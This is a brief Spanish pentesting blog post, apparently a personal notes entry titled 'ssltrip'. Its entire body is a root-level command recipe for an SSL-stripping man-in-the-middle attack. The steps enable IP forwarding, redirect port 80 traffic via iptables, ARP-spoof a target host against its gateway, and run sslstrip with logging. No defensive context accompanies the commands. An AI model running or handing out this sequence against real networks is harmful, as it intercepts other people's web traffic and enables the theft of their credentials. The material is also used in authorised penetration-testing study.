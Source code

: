 Title: ssltrip
Date: 2015-09-2 14:06 
Modified: 2015-09-2 14:06
Category: Pentesting
Tags: sslstrip
Slug: ssltrip
Authors: procamora
Summary:

```
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
arpspoof -i eth0 -t "ip objetivo" "ip puerta enlace"
python ssltrip.py
python ssltrip.py -v log
```

> Todo esto hay que hacerlo como root
